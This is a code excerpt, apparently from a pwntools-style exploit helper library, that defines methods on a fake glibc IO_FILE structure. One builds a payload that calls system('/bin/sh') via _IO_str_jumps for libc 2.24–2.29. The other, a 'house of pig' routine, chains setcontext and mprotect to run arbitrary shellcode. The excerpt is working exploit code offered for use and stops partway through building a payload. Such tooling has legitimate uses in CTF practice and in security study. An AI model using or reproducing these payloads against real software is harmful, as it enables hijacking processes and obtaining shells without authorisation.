 ```python
        """Execute system("/bin/sh") through fake IO_FILE struct, and the version of libc should be between 2.24 and 2.29.

        Usually, you have hijacked _IO_list_all, and will call _IO_flush_all_lockp by exit or other function.

        Args:
            _IO_str_jumps_addr (int): Addr of _IO_str_jumps
            system_addr (int): Addr of system
            bin_sh_addr (int): Addr of the string: /bin/sh

        Returns:
            bytes: payload
        """
        assert context.bits == 64, "only support amd64!"
        self.flags &= ~1
        self._IO_read_ptr = 0x61
        self.unknown2 = 0
        self._IO_write_base = 0
        self._IO_write_ptr = 0x1
        self._IO_buf_base = bin_sh_addr
        self.vtable = _IO_str_jumps_addr - 8
        return self.__bytes__() + pack(0, 64) + pack(system_addr, 64)


    def house_of_pig_exec_shellcode(self, fp_heap_addr:int, gadget_addr:int, str_jumps_addr:int, 
                        setcontext_off_addr:int, mprotect_addr:int, shellcode: str or bytes, lock:int=0):
        """House of pig to exec shellcode with setcontext.

        You should fill tcache_perthread_struct[0x400] with '__free_hook - 0x1c0' addr.

        Args:
            fp_heap_addr (int): The heap addr that replace original _IO_list_all or chain
            gadget_addr (int): Gadget addr for 'mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20]'
            str_jumps_addr (int): Addr of _IO_str_jumps
            setcontext_off_addr (int): Addr of setcontext and add offset, which is often 61
            mprotect_addr (int): Addr of mprotect
            shellcode ([type]): The shellcode you wanner execute
            lock (int, optional): lock value if needed. Defaults to 0.

        Returns:
            bytes: payload
        """
        assert context.bits == 64, "only support amd64!"
        self.flags = 0xfbad2800
        self._IO_write_base = 0
        self._IO_write_ptr = 0xffffffffffffff
        self.unknown2 = 0
        self._lock = lock
        self.vtable = str_jumps_addr
        self._IO_buf_base = fp_heap_addr + 0x110
        self._IO_buf_end = fp_heap_addr +0x110 + 0x1c8
        payload = flat({
            0:self.__bytes__(),
            0x100:{
                0x8: fp_heap_addr + 0x110,
                0x20: setcontext_off_addr,
                0xa0: fp_heap_addr + 0x210,
                0xa8: mprotect_addr,
                0x70: 0x2000,
                0x68: (fp_heap_addr + 0x110)&~0xfff,
```